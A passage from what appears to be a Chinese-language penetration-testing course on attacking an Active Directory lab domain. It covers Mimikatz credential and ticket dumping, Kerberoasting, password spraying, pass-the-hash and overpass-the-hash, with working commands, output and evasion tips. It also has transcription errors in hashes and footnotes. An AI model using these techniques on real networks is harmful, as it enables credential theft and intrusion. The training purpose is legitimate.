前两部分（SPN 和会话密钥）是使用与 TGT 创建相关的会话密钥加密的，而服务*票证*则是使用在相应 SPN 中注册的服务账户的密码哈希进行加密的。

一旦 KDC 的认证过程完成，且客户端同时拥有会话密钥和服务票证，服务认证便开始了。

首先，客户端向应用程序服务器发送一个*应用程序请求*或 AP_REQ，其中包含用户名和一个使用与服务票证关联的会话密钥加密的时间戳，以及服务票证本身。

应用程序服务器使用服务账户密码哈希解密服务票证，并提取用户名和会话密钥。然后，它使用后者解密 AP_REQ 中的用户名。如果 AP_REQ 的用户名与服务票证中解密的用户名匹配，则接受该请求。在授予访问权限之前，服务将检查服务票证中提供的组成员身份，并为用户分配适当的权限，之后用户即可访问所请求的服务。

该协议可能显得复杂甚至繁琐，但其设计旨在缓解各种网络攻击并防止使用伪造凭证。

既然我们已经探讨了 NTLM 和 Kerberos 认证的基础，让我们进一步探讨各种缓存凭证存储和服务账户攻击。

## 21.3.3 缓存凭证存储与检索

为了解缓存凭证攻击的基础，我们必须首先讨论 Kerberos 中使用的各种密码哈希，并展示它们的存储方式。

由于 Microsoft 对 Kerberos 的实现使用了单点登录，为了续订 TGT 请求，必须将密码哈希存储在某个位置。在当前的 Windows 版本中，这些哈希存储在本地安全授权子系统服务（LSASS）⁶⁴⁶ 的内存空间中。⁶⁴⁷

如果我们获得了对这些哈希的访问权限，就可以破解它们以获取明文密码，或者重新使用它们来执行各种操作。

虽然这是我们对 AD 攻击的最终目标，但过程并没有听起来那么简单。由于 LSASS 进程是操作系统的一部分并以 SYSTEM 身份运行，因此我们需要 SYSTEM（或本地管理员）权限才能访问目标上存储的哈希。

因此，为了针对存储的哈希，我们通常必须以本地提权来开始我们的攻击。更麻烦的是，用于在内存中存储哈希的数据结构并没有公开文档，而且它们还使用存储在 LSASS 中的密钥进行了加密。

尽管如此，由于这是对 Windows 和 Active Directory 的一个巨大攻击向量，已经创建了几种工具来提取这些哈希，其中最流行的是 Mimikatz。⁶⁴⁸

让我们尝试使用 Mimikatz 在我们的 Windows 10 系统上提取哈希。

> 在以下示例中，我们将作为独立应用程序运行 Mimikatz。
> 然而，由于 Mimikatz 的主流普及性和众所周知的检测签名，请考虑避免将其作为独立应用程序使用。例如，使用 PowerShell⁶⁴⁹ 等注入器直接从内存执行 Mimikatz，或使用任务管理器等内置工具转储整个 LSASS 进程内存，将转储的数据移动到辅助机器，然后从那里将数据加载到 Mimikatz 中。⁶⁵⁰

由于 Offsec 域用户是本地管理员，我们可以启动一个具有提升权限的命令提示符。从这个命令提示符中，我们将运行 `mimikatz`⁶⁵¹ 并输入 `privilege::debug` 来启用 SeDebugPrivilege⁶⁵² 权限，这将允许我们与由其他账户拥有的进程进行交互。

最后，我们将运行 `sekurlsa::logonpasswords` 使用 Sekurlsa⁶⁵³ 模块转储所有已登录用户的凭证。

这将转储当前工作站或服务器上所有已登录用户的哈希，*包括远程登录*，如远程桌面会话。

```


`C:\Tools\active_directory>` `mimikatz.exe`

```
mimikatz # privilege::debug

Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 291668 (00000000:00047354)

Session       : Interactive from 1

User Name     : Offsec

Domain        : CORP

Logon Server  : DC01

Logon Time    : 08/02/2018 14.23.26

SID           : S-1-5-21-1602875587-2787523311-2599479668-1103

          msv :

            [00000003] Primary

            \* Username : Offsec
```

- 648 (Benjamin Delphe, 2018), https://github.com/gentilkiwi/mimikatz
- 649 (Matt Graeber, 2016), https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1
- 650 (Ruben Boonen, 2016), http://www.fuzzysecurity.com/tutorials/18.html
- 651 (Benjamin Delphe, 2014), https://github.com/gentilkiwi/mimikatz/wiki/module~~-sekurlsa
- 652 (Microsoft, 2018), https://msdn.microsoft.com/en-us/library/windows/desktop/bb530716(v=vs.85).aspx
- 653 (Mimikatz, 2019), https://github.com/gentilkiwi/mimikatz/wiki/module~~-sekurlsa

* 域		: CORP
* NTLM		: e2b475c11da2a074829d087aa966c327
* SHA1		: 8c77f430e4ab8acb010ead387d64011c76480d26e
* DPAPI		: 162d313bede93b0a2e72a030ec9216f0
tspkg		:
wdigest		:
* 用户名	: Offsec
* 域	: CORP
* 密码	: (null)
kerberos	:
* 用户名	: Offsec
* 域	: CORP.COM
* 密码	: (null)
...

## 列表 689 - 在域工作站上执行 mimikatz

上述输出片段显示了为域用户 `Offsec` 存储在 `LSASS` 中的所有凭据信息，包括缓存的哈希值。

请注意，上述输出中高亮显示了两类哈希值。这将根据 `AD` 实现的功能级别而有所不同。对于功能级别为 `Windows 2003` 的 `AD` 实例，`NTLM` 是唯一可用的哈希算法。对于运行 `Windows Server 2008` 或更高版本的实例，`NTLM` 和 `SHA-1`（`AES` 加密的常见伴侣）均可用。在 `Windows 7` 等较旧的操作系统上，或手动启用了该功能的操作系统上，`WDigest`、`654` 将被启用。当 `WDigest` 被启用时，运行 `Mimikatz` 将在密码哈希值旁边显示明文密码。

凭借这些哈希值，我们可以尝试破解它们以获得明文密码。

`Mimikatz` 的另一种用途是通过滥用 `TGT` 和服务票据来利用 `Kerberos` 认证。正如之前讨论的，我们知道当前登录到本地机器的用户的 `Kerberos TGT` 和服务票据会被存储以供将来使用。这些票据也存储在 `LSASS` 中，我们可以使用 `Mimikatz` 来交互并检索我们自己的票据以及其他本地用户的票据。

例如，在列表 690 中，我们使用 `Mimikatz` 显示存储在内存中的 `Offsec` 用户的票据：

```
mimikatz # sekurlsa::tickets

Authentication Id : 0 ; 291668 (00000000:00047354)

Session		: Interactive from 1

User Name		: Offsec

Domain		: CORP

Logon Server	: DC01

Logon Time	: 08/02/2018 14,23,26

SID		: S-1-5-21-1602875587-2787523311-2599479668-1103

* Username : Offsec

* Domain : CORP.COM

* Password : (null)
```

654 (Microsoft, 2003). https://technet.microsoft.com/en-us/library/yc778868(v=ws.10).aspx


组 0 – **票据授予服务**

```
[00000000]

[00000001]

[00000002]
```

```
Start/End/MaxRenew: 09/02/2018 14.41.47; 10/02/2018 00.41.47; 16/02/2018 14.41.47

Service Name (02): cifs ; dc01 ; @ CORP.COM

Target Name (02): cifs ; dc01 ; @ CORP.COM

Client Name (01): Offsec ; @ CORP.COM

Flags 40a50000 : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ;

Session Key: 0x00000012 - aes256_hmac

d062a1bc89c09544a7130652f4d4bae4c04833c3324aa2e1b1051816a7090a0718

Ticket: 0x00000012 - aes256_hmac ; kvno = 3
```

组 1 – 客户票据 ?

组 2 – **票据授予票据**

```
[00000000]

[00000001]

[00000002]
```

```
Start/End/MaxRenew: 09/02/2018 14.41.47; 10/02/2018 00.41.47; 16/02/2018 14.41.47

Service Name (02): krbtgt ; CORP.COM ; @ CORP.COM

Target Name (02): @ CORP.COM

Client Name (01): Offsec ; @ CORP.COM ($$Delegation Ticket$$)

Flags 60a10000 : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwa

Session Key: 0x00000012 - aes256_hmac

3b0a49af17a1ada1dacf2e3b8964ad397d80270b7118cc567da4d4b2b6dc90d

Ticket: 0x00000012 - aes256_hmac ; kvno = 2
```

```
[00000001]

Start/End/MaxRenew: 09/02/2018 14.41.47; 10/02/2018 00.41.47; 16/02/2018 14.41.47

Service Name (02): krbtgt ; CORP.COM ; @ CORP.COM

Target Name (02): krbtgt ; CORP.COM ; @ CORP.COM

Client Name (01): Offsec ; @ CORP.COM ( CORP.COM )

Flags 40e10000 : name_canonicalize ; pre_authent ; initial ; renewable ; forward

Session Key: 0x00000012 - aes256_hmac

8f6e96a7067a86d94af4e9f46e0e2abd067422fe7b1588db37c199f56e91a749c

Ticket: 0x00000012 - aes256_hmac ; kvno = 2
```


### 列表 690 – 使用 mimikatz 提取 Kerberos 票据

输出显示了一个 TGT 和一个 TGS。窃取 TGS 将只允许我们访问与这些票据相关的特定资源。另一方面，凭借 TGT 票据，我们可以请求访问我们想要针对的域内特定资源的 TGS。我们稍后将在模块中讨论如何利用窃取或伪造的票据。

除了这些功能外，Mimikatz 还可以将票据导出到硬盘，并将票据导入 LSASS，我们将稍后探讨这一点。Mimikatz 甚至可以提取与通过智能卡和 PIN 进行认证相关的信息，这使得该工具成为真正的缓存凭据“瑞士军刀”！

### 21.3.3.1 练习

- 使用 Mimikatz 从学生虚拟机中转储所有密码哈希值。
- 通过远程桌面以 `Jeff_Admin` 账户登录域控制器，并使用 Mimikatz 从服务器中转储所有密码哈希值。

#### 21.3.4 服务账户攻击

回想一下 Kerberos 协议的解释，我们知道当用户想要访问由 SPN 托管的资源时，客户端会请求由域控制器生成的服务票据。然后，由于服务票据是通过 SPN 的密码哈希值加密的，它会被应用程序服务器解密和验证。

在从域控制器请求服务票据时，不会对用户是否有权访问由服务主体名称托管的服务进行检查。这些检查仅在连接服务本身时作为第二步执行。这意味着，如果我们知道想要针对的 SPN，我们可以从域控制器请求针对它的服务票据。然后，由于这是我们自己的票据，我们可以将其从本地内存中提取并保存到磁盘。

在本节中，我们将滥用服务票据并尝试破解服务账户的密码。

例如，我们知道域中互联网信息服务 Web 服务器的注册 SPN 是 `_HTTP/CorpWebServer.corp.com_`。从 PowerShell 中，我们可以使用 `KerberosRequestorSecurityToken` 类 [655] 来请求服务票据。 [656]

我们需要代码片段位于 `System.IdentityModel` [657] 命名空间中，该命名空间默认未加载到 PowerShell 实例中。要加载它，我们使用带有 `-AssemblyName` 参数的 `Add-Type` [658] cmdlet。

我们可以通过指定带有 `-ArgumentList` 选项的 SPN 来调用 `KerberosRequestorSecurityToken` 构造函数，如列表 691 所示。

```
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

列表 691 - 请求服务票据

执行后，请求的服务票据应由域控制器生成并加载到 Windows 10 客户端的内存中。而不是每次都执行 Mimikatz，我们还可以使用内置的 `klist` [659] 命令来显示当前用户的所有缓存的 Kerberos 票据：

```
PS C:\Users\offsec> klist

Current LogonId is 0x0x3d e df

Cached Tickets: (4)

# 0 > Client: Offsec @ CORP.COM
```

- 655 (Microsoft, 2017), https://msdn.microsoft.com/en-us/library/system.identitymodel.tokens.kerberosrequestorsecuritytoken(v=vs.110).aspx
- 656 (Sean Metcalf, 2016), https://adsecurity.org/?p=2293
- 657 (Microsoft, 2019), https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8
- 658 (Microsoft, 2019), https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-6
- 659 (Microsoft, 2019), https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/klist


Server: krbtgt/CORP.COM @ CORP.COM
KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
Start Time: 2/12/2018 10:17:53 (local)
End Time: 2/12/2018 20:17:53 (local)
Renew Time: 2/19/2018 10:17:53 (local)
Session Key Type: AES-256-CTS-HMAC-SHA1-96
Cache Flags: 0x1 -> PRIMARY
Kdc Called: DC01.corp.com

#1> Client: Offsec @ CORP.COM
Server: HTTP/CorpWebServer.corp.com @ CORP.COM
KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
Start Time: 2/12/2018 10:18:31 (local)
End Time: 2/12/2018 20:17:53 (local)
Renew Time: 2/19/2018 10:17:53 (local)
Session Key Type: RSADSI RC4-HMAC(NT)
Cache Flags: 0
Kdc Called: DC01.corp.com

列表 692 - 显示票据

在为互联网信息服务主体名称创建并保存到内存中的服务票据（列表 692）之后，我们可以使用内置 API $^{660}$ 或 Mimikatz 将其从内存中下载。

要使用 Mimikatz 下载服务票据，我们使用 `kerberos::list` 命令，该命令产生与上述 `klist` 命令等效的输出。我们还指定了 `/export` 标志以将其下载到磁盘，如列表 693 所示。

```
mimikatz # kerberos::list /export

[00000000] - 0x00000012 - aes256_hmac

Start/End/MaxRenew: 12/02/2018 10.17.53 ; 12/02/2018 20.17.53 ; 19/02/2018 10.17.53

Server Name : krbtgt/CORP.COM @ CORP.COM

Client Name : Offsec @ CORP.COM

Flags 40e10000 : name_canonicalize ; pre_authent ; initial ; renewable ; forward

\\ Saved to file : 0-40e10000-offsec@krbtgt-CORP.COM-CORP.COM.kirbi

[00000001] - 0x00000017 - rc4_hmac_nt

Start/End/MaxRenew: 12/02/2018 10.18.31 ; 12/02/2018 20.17.53 ; 19/02/2018 10.17.53

Server Name : HTTP/CorpWebServer.corp.com @ CORP.COM

Client Name : Offsec @ CORP.COM

Flags 40a50000 : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ;

\\ Saved to file : 1-40a50000-offsec@HTTP-CorpWebServer.corp.com-CORP.COM.kirbi
```


列表 693 - 从内存中导出票据

## 21.3.4.1 练习

- 使用 `tgsrepcrack.py` Python 脚本手动重复请求服务票据、导出票据并破解票据的操作。
- 对域内的其他 SPN 执行相同的操作。
- 使用 John the Ripper 破解相同的服务票据。
- 使用 `Invoke-Kerberoast.ps1` 脚本重复这些练习。

## 21.3.5 慢速密码猜测攻击

在前一节中，我们研究了如何利用 Kerberos 协议的特性来攻击服务账户，但活动目录（Active Directory）也可以为我们提供信息，这些信息可能引导我们针对用户账户进行更高级的密码猜测技术。

在执行暴力破解或字典认证攻击时，我们必须警惕账户锁定，因为过多的登录失败可能会阻止账户进一步被攻击，并可能向系统管理员发出警报。

在本节中，我们将使用 LDAP 和 ADSI 对 AD 用户执行“慢速”密码攻击，同时不触发账户锁定。

首先，让我们通过 `net accounts` 查看该域的账户策略：

```
PS C:\Users\Offsec.corp> net accounts

Force user logoff how long after time expires?: Never

Minimum password age (days): 0

Maximum password age (days): 42

Minimum password length: 0

Length of password history maintained: None

Lockout threshold: 5

Lockout duration (minutes): 30

Lockout observation window (minutes): 30

Computer role: WORKSTATION

The command completed successfully.
```

*列表 695 - net accounts 命令的结果*

这里有很多非常有价值的信息，但让我们先关注“锁定阈值”（Lockout threshold），它表示在锁定之前允许的最大登录尝试次数为 5 次。这意味着我们可以安全地尝试 4 次登录而不触发锁定。这听起来不多，但请考虑*锁定观察窗口*（Lockout observation window），它表明在最后一次登录尝试后的每三十分钟，我们都有一个额外的“免费”登录尝试机会。

根据这些设置，在假设实际用户没有登录失败的情况下，我们可以在 24 小时内的 52 次登录尝试中针对所有域用户而不触发锁定。

这样的攻击允许我们编制一份常用密码的短列表，并将其针对大量用户进行测试，在实践中，这揭示了组织中相当多的弱账户密码。

基于此知识，让我们实施此攻击。


测试 AD 用户登录的方法有很多种，但我们可以使用 PowerShell 脚本来演示基本组件。在之前的部分中，我们以登录用户的身份对域控制器执行查询。然而，我们也可以设置 `DirectoryEntry` 实例，从而以不同用户的身份执行查询。

在之前的示例中，我们使用不带参数的 `DirectoryEntry` 构造函数，但我们可以提供三个参数，包括指向域控制器的 LDAP 路径以及用户名和密码：

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.',' ,DC='))"

$SearchString += $DistinguishedName

New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "Qwert"y891")
```

*列表 696 - 使用 DirectoryEntry 进行身份验证*

如果用户账户的密码正确，对象创建将成功，如列表 697 所示。

```text
distinguishedName : {DC=corp,DC=com}

Path                  : LDAP://DC01.corp.com/DC=corp,DC=com
```

*列表 697 - 使用 DirectoryEntry 成功身份验证*

如果密码无效，将不会创建对象，并且我们会收到如列表 698 所示的异常。请注意明确的警告，即用户名或密码不正确。

```text
format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or password is incorrect."

" + CategoryInfo : NotSpecified: (:) {format-default}, ExtendedTypeSystemException

+ FullyQualifiedErrorId : CatchFromBaseGetMember_Microsoft.PowerShell.Commands.Forma
```

*列表 698 - 使用 DirectoryEntry 时密码不正确*

通过这种方式，我们可以创建一个 PowerShell 脚本，枚举所有用户，并根据 `锁定阈值` 和 `锁定观察窗口` 执行身份验证。

一种现有的针对此攻击的实现称为 `Spray-Passwords.ps1`，位于 Windows 10 客户端的 `C:\Tools\active_directory` 文件夹中。

`-Pass` 选项允许我们设置一个要测试的单一密码，或者我们可以使用 `-File` 提交一个字典文件。我们还可以添加 `-Admin` 标志来测试管理员账户。

> 665 (Imposec, 2016), https://github.com/ZlientJack/Spray-Passwords/blob/master/Spray-Passwords.ps1


```
PS C:\Tools\active_directory> .\Spray-Passwords.ps1 -Pass Qwerty09! -Admin

WARNING: also targeting admin accounts.

Performing brute force - press [q] to stop the process and print results....

Guessed password for user: 'Administrator' = 'Qwerty09!'

Guessed password for user: 'offsec' = 'Qwerty09!'

Guessed password for user: 'adam' = 'Qwerty09!'

Guessed password for user: 'iis_service' = 'Qwerty09!'

Guessed password for user: 'sql_service' = 'Qwerty09!'

Stopping bruteforce now....

Users guessed are:

'Administrator' with password: 'Qwerty09!'

'offsec' with password: 'Qwerty09!'

'adam' with password: 'Qwerty09!'

'iis_service' with password: 'Qwerty09!'

'sql_service' with password: 'Qwerty09!'
```


*列表 699 - 使用 Spray-Passwords 攻击用户账户*

这个琐碎的例子能快速产生结果，但通常情况下，我们需要使用包含良好密码候选项的字典。

现在，我们已经发现了在攻击 Active Directory 及其认证协议时获取用户和服务账户凭据的方法。接下来，我们可以开始利用这些凭据来入侵域内的其他机器，理想情况下是那些登录了高价值用户的机器。

### 21.3.5.1 练习

- 使用本模块中的 PowerShell 脚本猜测 `jeff_admin` 用户的密码。
- 使用 `Spray-Passwords.ps1` 工具从密码列表中执行对域内所有用户的枚举暴力破解攻击。

### 21.4 Active Directory 横向移动

在前几节中，我们定位了可能导致 Active Directory 全面入侵的高价值目标，并找到了这些目标登录的工作站或服务器。我们收集了密码哈希，恢复了现有的票据，并利用它们进行 Kerberos 身份验证。

接下来，我们将使用横向移动技术来入侵我们的高价值目标所在的机器。

我们方法中的一个逻辑下一步是破解我们已获得的任何密码哈希，并使用明文密码认证到机器以获取未授权的访问。然而，密码破解需要时间，并且可能会失败。此外，Kerberos 和 NTLM 不直接使用明文密码，且 Microsoft 的原生工具不支持使用密码哈希进行身份验证。

在下一节中，我们将探索一种替代的横向移动技术，该技术允许我们仅使用用户哈希或 Kerberos 票据即可对系统进行身份验证并获取代码执行权限。

[^661] (Tim Medin, 2015), https://github.com/nidm/kerberoast
[^662] (Michael Kramer, 2015), https://github.com/magnumripper/JohnTheRipper/commit/05e514646dfde5aa65ee48774571c0169f7e25a53
[^663] (@FirstOurS, 2016), https://github.com/hashcat/hashcat/pull/225
[^664] (Will Schroeder, 2016), https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Kerberoast.ps1

## 21.4.1 传递哈希

*传递哈希*（*PtH*）技术允许攻击者使用用户的 NTLM 哈希值（而非对应的明文密码）来向远程系统或服务进行身份验证。请注意，这在 Kerberos 身份验证中是行不通的，它仅适用于使用 NTLM 身份验证的服务器或服务。

许多第三方工具和框架使用 PtH 技术来让用户既进行身份验证又获取代码执行权限，包括 *Metasploit* 中的 *PsExec*、*Passing-the-hash toolkit* 以及 *Impacket*。它们背后的机制大致相同，即攻击者使用 Server Message Block（*SMB*）协议连接受害者，并使用 NTLM 哈希值进行身份验证。

大多数用于利用 PtH 的工具都会创建并启动一个 Windows 服务（例如 `cmd.exe` 或 PowerShell 实例），并通过 *命名管道* 与其通信。这是通过 *服务控制管理器* API 实现的。

该技术需要防火墙中存在 SMB 连接（通常为 445 端口），并且 Windows 的*文件和打印机共享*功能已启用。这些要求在内部企业环境中很常见。

> 当执行连接时，通常使用一个名为 *Admin$* 的特殊管理员共享。为了与此共享建立连接，攻击者必须提供具有本地管理员权限的有效凭据。换句话说，这种横向移动类型通常需要本地管理员权限。

请注意，PtH 合法使用了 NTLM 哈希。然而，漏洞在于我们未经授权获取了本地管理员的密码哈希。

为了演示这一点，我们可以使用 *Passing-The-Hash* 工具包中的 *pth-winexe*，就像我们在*密码攻击*模块中将哈希传递给非域加入用户时所做的那样：

```
kali@kali:~$ pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cf84d7a709e2eb39705c425e //10.0.22 cmd

E_md4hash wrapper called.

HASH PASS: Substituting user supplied NTLM HASH...

Microsoft Windows [Version 10.0.16299.309]

(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

*列表 700 - 使用 pth-winexe 传递哈希*

+ 656 (Metasploit, 2017), https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/
+ 657 (@by3b133d3r, 2015), https://github.com/by3b133d3r/pth-toolkit
+ 658 (Core Security, 2017), https://github.com/CoreSecurity/impacket/blob/master/examples/smbclient.py
+ 659 (Microsoft, 2017), https://msdn.microsoft.com/en-us/library/windows/desktop/aa365234(v=vs.85).aspx
+ 660 (Microsoft, 2017), https://msdn.microsoft.com/en-us/library/windows/desktop/aa365590(v=vs.85).aspx
+ 661 (Microsoft, 2017), https://msdn.microsoft.com/en-us/library/windows/desktop/ms685150(v=vs.85).aspx


在这种情况下，我们仅使用用户的 NTLM 哈希，通过 NTLM 身份验证直接从我们的 Kali Linux 在 Windows 10 客户端上获取了代码执行权限。

此方法适用于 Active Directory 域账户和内置的本地管理员账户。自 2014 年安全更新以来，此技术不能用于作为其他本地管理员账户进行身份验证。

## 21.4.2 超越哈希

通过*超越哈希*，我们可以“超越”利用 NTLM 用户哈希来获取完整的 Kerberos 票证授予票证（TGT）或服务票证，从而允许我们作为该用户访问另一台机器或服务。

为了演示这一点，假设我们已攻陷一台工作站（或服务器），Jeff_Admin 用户已向其进行了身份验证，并且该机器现在正在缓存其凭据（因此也缓存了其 NTLM 密码哈希）。

为了模拟此缓存凭据，我们将以 Offsec 用户身份登录 Windows 10 机器，并以 Jeff_Admin 身份运行一个进程，这会提示进行身份验证。

最简单的做法是右键单击任务栏上的记事本图标，然后在上拉菜单中按住 Shift 键并右键单击记事本图标，这将显示图 311 中的选项。


从这里，我们可以选择“以不同用户身份运行”，并输入“jeff_admin”作为用户名以及相关的密码，这将在那位用户的上下文中启动记事本。成功身份验证后，Jeff_Admin 的凭据将在此机器上缓存。

> 672 (Microsoft, 2014), https://support.microsoft.com/en-us/help/2871997/microsoft-security-advisory-update-to-improve-credentials-protection-a
> 673 (Skip Duckwall and Benjamin Delphy, 2014), https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Dont-Get-It-tpw.pdf

我们可以使用 `mimikatz` 中的 `sekurlsa::logonpasswords` 命令来验证这一点，该命令会转储缓存的密码哈希。

```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 2815531 (00000000:002af62b)

Session : Interactive from 0

User Name : jeff_admin
```


Domain : CORP

Logon Server : DC01

Logon Time : 12/02/2018 09.18.57

SID : S-1-5-21-1602875587-2787523311-2599479668-1105

msv :

[00000003] Primary

* Username : jeff_admin
* Domain : CORP
* NTLM : e2b475c11da2a0748290d87aa966c327
* SHA1 : 8c77f430e4ab8acb10ead387d64011c76400d26e
* DPAPI : 2918ad3d460772e828ccbd7e6aa494b9

tspkg :

wdigest :

* Username : jeff_admin
* Domain : CORP
* Password : (null)

kerberos :

* Username : jeff_admin
* Domain : CORP.COM
* Password : (null)

...

```
*列表 701 - 转储 Jeff_Admin 的密码哈希*
```

此输出显示了 `Jeff_Admin` 的缓存凭据，包括 NTLM 哈希，我们将利用它来超越哈希。

超越哈希技术的本质是将 NTLM 哈希转换为 Kerberos 票证，并避免使用 NTLM 身份验证。一种简单的再次使用 Mimikatz 中的 `sekurlsa::pth` 命令来实现。

该命令需要几个参数，并在 `Jeff_Admin` 用户的上下文中创建一个新的 PowerShell 进程。这个新的 PowerShell 提示符将允许我们获取 Kerberos 票证，而无需通过网络进行 NTLM 身份验证，这使得此攻击不同于传统的传递哈希。

作为第一个参数，我们指定 `/user:` 和 `/domain:`，分别将其设置为 `jeff_admin` 和 `corp.com`。我们将使用 `/ntlm:` 指定 NTLM 哈希，最后使用 `/run:` 指定要创建的进程（在此情况下为 PowerShell）。

```
mimikatz # `sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe`

user : jeff_admin

domain : corp.com

program : cmd.exe

impers. : no

NTLM : e2b475c11da2a0748290d87aa966c327

| PID 4832

| TID 2268

| LSA Process is now R/W

| LUID 0 ; 1197687 (00000000:00124677)

\_ msv1_0 - data copy @ 040E5614 : OK !

\_ kerberos - data copy @ 040E5438

\_ aes256_hmac --> null

\_ aes128_hmac --> null

\_ rc4_hmac_nt OK

\_ rc4_hmac_old OK

\_ rc4_md4 OK

\_ rc4_hmac_nt_exp

\_ rc4_hmac_old_exp OK

| *Password replace --> null
```

*列表 702 - 使用不同用户的 NTLM 密码哈希创建进程*

此时，我们有一个新的 PowerShell 会话，允许我们以 `Jeff_Admin` 的身份执行命令。

让我们使用 `klist` 列出缓存的 Kerberos 票证：

```
PS C:\Windows\system32> `klist`

Current LogonId is 0:0x1583ae

Cached Tickets: (0)
```

*列表 703 - 列出 Kerberos 票证*

没有缓存 Kerberos 票证，但这是预期的，因为 `Jeff_Admin` 尚未执行交互式登录。但是，让我们使用 `net use` 通过向域控制器上的网络共享进行身份验证来生成 TGT。

```
PS C:\Windows\system32> `net use \\dc01`

The command completed successfully.

PS C:\Windows\system32> `klist`

Current LogonId is 0:0x1583ae

Cached Tickets: (3)

#0> Client: jeff_admin @ CORP.COM

Server: krbtgt/CORP.COM @ CORP.COM

Kerbticket Encryption Type: AES-256-CTS-HMAC-SHA1-96

Ticket Flags 0x60a10000 --> forwardable forwardable renewable pre_authname name_canon

Start Time: 2/12/2018 13:59:40 (local)

End Time: 2/12/2018 23:59:40 (local)

Renew Time: 2/19/2018 13:59:40 (local)

Session Key Type: AES-256-CTS-HMAC-SHA1-96

Cache Flags: 0x2 --> DELEGATION

Kdc Called: DC01.corp.com

#1> Client: jeff_admin @ CORP.COM

Server: krbtgt/CORP.COM @ CORP.COM

Kerbticket Encryption Type: AES-256-CTS-HMAC-SHA1-96

Ticket Flags 0x40e10000 --> forwardable renewable initial pre_authname name_canonica
```


```
Start Time: 2/12/2018 13:59:40 (local)

End Time: 2/12/2018 23:59:40 (local)

Renew Time: 2/19/2018 13:59:40 (local)

Session Key Type: AES-256-CTS-HMAC-SHA1-96

Cache Flags: 0x1 -> PRIMARY

Kdc Called: DC01.corp.com

#2> Client: jeff_admin @ CORP.COM

Server: cifs/dc01 @ CORP.COM

KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96

Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_c

Start Time: 2/12/2018 13:59:40 (local)

End Time: 2/12/2018 23:59:40 (local)

Renew Time: 2/19/2018 13:59:40 (local)

Session Key Type: AES-256-CTS-HMAC-SHA1-96

Cache Flags: 0

Kdc Called: DC01.corp.com
```

**列表 7.04 - 在域控制器上映射网络共享并列出 Kerberos 票据**

输出结果表明 `net use` 命令已成功执行。随后，我们使用 `klist` 命令列出新请求的 Kerberos 票据；这些票据包括一个 TGT（票据授予票据）和一个用于 `CIFS` 服务的 TGS（票据授予服务）。

> 在此示例中，我们任意使用了 “net use” 命令，但我们可以使用任何需要域权限并随后创建 TGS 的命令。

现在，我们已经将 NTLM 哈希转换为 Kerberos TGT，使我们能够使用依赖 Kerberos 认证（而非 NTLM）的工具，例如微软官方的 `PsExec` 应用程序。[^674]

`PsExec` 可以远程执行命令，但不接受密码哈希。既然我们已生成 Kerberos 票据，并在 PowerShell 会话中以 `Jeff_Admin` 的身份运行，我们可以重用 TGT 在域控制器上获取代码执行权限。

让我们现在试试，运行 `./PsExec.exe` 以在 `\dc01` 机器上以 `Jeff\Admin` 身份远程启动 `cmd.exe`：

```powershell


PS C:\Tools\active_directory> .\PsExec.exe \\dc01 cmd.exe

PsExec v2.2 - Execute processes remotely

Copyright (C) 2001-2016 Mark Russinovich

Sysinternals - www.sysinternals.com

C:\Windows\system32> ipconfig

Windows IP Configuration

```
```

[^674]: (Microsoft, 2016), https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

```text

Ethernet adapter Ethernet0:

    Connection-specific DNS Suffix . . :

    Link-local IPv6 Address . . . . . : fe80::7959:aaad:eec:3969%2

    IPv4 Address. . . . . . . . . . . : 192.168.1.110

    Subnet Mask . . . . . . . . . . . : 255.255.255.0

    Default Gateway . . . . . . . . . : 192.168.1.1

    .

    .

    .

C:\Windows\system32> whoami

 corp\j_jeff_admin

```

**列表 705 - 使用 Kerberos 打开远程连接**

正如输出所示，我们已成功重用 Kerberos TGT 在域控制器上启动了一个命令 shell。

太棒了！我们成功地将缓存的 NTLM 密码哈希升级为 Kerberos TGT，并利用它获得了远程代码执行权限。

### 21.4.2.1 练习

- 1. 执行上述 overpass the hash 攻击，并在域控制器上获取交互式命令提示符。在开始练习之前，请确保重启 Windows 10 客户端，以清除任何缓存的 Kerberos 票据。

### 21.4.3 传递票据 (Pass the Ticket)

在上一节中，我们使用了 overpass the hash 技术（连同捕获的 NTLM 哈希）来获取 Kerberos TGT，使我们能够使用 Kerberos 进行身份验证。我们只能在该票据所创建的机器上使用 TGT，但 TGS 可能提供更多灵活性。

*传递票据 (Pass the Ticket)* 攻击利用了 TGS，该票据可以被导出并在网络的其他地方重新注入，然后用于向特定服务进行身份验证。此外，如果服务票据属于当前用户，则不需要管理员权限。

